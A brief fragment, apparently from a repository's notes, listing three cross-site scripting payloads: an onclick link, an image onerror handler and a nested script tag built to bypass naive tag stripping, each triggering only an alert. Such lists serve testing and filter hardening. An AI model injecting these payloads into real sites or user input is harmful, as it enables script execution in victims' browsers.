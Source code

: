 - Some exploit payloads:
    - <a href="" onclick="alert('XSS!');">Click Me<a/>
    - E.g. this also works, and requires less user interaction: <img src="x" onerror="alert(1)"> 
    - This also works: <scrip<​script><​/script>t>alert("XSS")<​/script>